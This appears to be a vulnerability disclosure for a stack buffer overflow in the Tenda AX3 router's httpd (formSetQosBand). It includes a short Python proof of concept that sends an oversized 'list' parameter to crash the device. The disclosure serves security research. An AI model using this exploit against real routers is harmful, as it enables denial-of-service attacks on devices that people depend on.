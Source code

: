 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **formSetQosBand**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **list** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **formSetQosBand**, the content obtained by program through parameter **list** given by http is passed to variable **v4**. Variable **v4** enters the function **set_qosMib_list** as a parameter, and a stack overflow vulnerability exists within **set_qosMib_list** <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/0.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/SetNetControlList"

payload = "a"*0x1000
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/1.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/2.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/3.png)
